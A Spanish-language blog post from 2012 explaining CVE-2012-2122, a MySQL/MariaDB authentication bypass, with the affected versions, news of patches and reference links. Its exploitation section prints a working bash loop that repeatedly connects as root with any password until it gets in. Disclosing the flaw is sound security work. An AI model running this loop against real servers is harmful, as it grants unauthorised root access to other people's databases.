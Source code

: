 Title: CVE 2012-2122, saltándose la autenticación para acceder a MySQL y MariaDB
Date: 2012-06-12 14:37
Author: Nacho Cano
Tags: autenticación, mariadb, mysql, vulnerabilidades
Slug: cve-2012-2122-saltandose-la-autenticacion-para-acceder-a-mysql-y-mariadb

Un fallo descubierto en MariaDB, y que también afecta a MySQL, permite
saltarse la autenticación para acceder a la base de datos utilizando
cualquier usuario válido, incluido el root, sin importar la contraseña.
Cada vez que un usuario se conecta se genera un _token_ SHA aleatorio y
se compara con el valor esperado, pero bajo ciertas condiciones el
resultado de esta comparación se considera válido aunque realmente no lo
sea. Dado que el protocolo utiliza cadenas aleatorias, hay una
probabilidad de 1/256 de que esto ocurra.

No todas las versiones son vulnerables:

-   Todas las versiones de MariaDB y MySQL hasta la 5.1.61, 5.2.11,
    5.3.5 y 5.5.22 son vulnerables.
-   Las versiones de MariaDB desde la 5.1.62, 5.2.12, 5.3.6 y 5.5.23 no
    lo son.
-   Las versiones de MySQL desde la 5.1.63, 5.5.24 y 5.6.6 no lo son.

Explotación y medidas de protección
-----------------------------------

Explotar un sistema vulnerable es tan sencillo como intentar conectarnos
de forma repetida:

```bash
$ for i in {1..512}; do echo 'select @@version;' | mysql -uroot -ppass -h 127.0.0.1 2>/dev/null && break; done
```

Ya hay disponibles actualizaciones en los repositorios para las
versiones afectadas.

* * * * *

#### Actualizado el 13 de junio de 2012

En hispasec amplían la noticia y explican muy detalladamente las
condiciones en las que se produce el falso positivo en la comprobación
de la contraseña. También he cambiado la [prueba de concepto][] por la
de HD Moore porque me parece más elegante :)

* * * * *

Más información
---------------

- [CVE-2012-2122][]
- [Security vulnerability in MySQL/MariaDB sql/password.c][]
- [MySQL o cómo es posible dar por válida una contraseña incorrecta][]

  [prueba de concepto]: http://twitter.com/hdmoore/status/211991006630002688
    "prueba de concepto"
  [CVE-2012-2122]: http://bugs.launchpad.net/bugs/cve/2012-2122
    "CVE-2012-2122"
  [Security vulnerability in MySQL/MariaDB sql/password.c]: http://seclists.org/oss-sec/2012/q2/493
    "Security vulnerability in MySQL/MariaDB sql/password.c"
  [MySQL o cómo es posible dar por válida una contraseña incorrecta]: http://unaaldia.hispasec.com/2012/06/mysql-o-como-es-posible-dar-por-valida.html
    "MySQL o cómo es posible dar por válida una contraseña incorrecta"
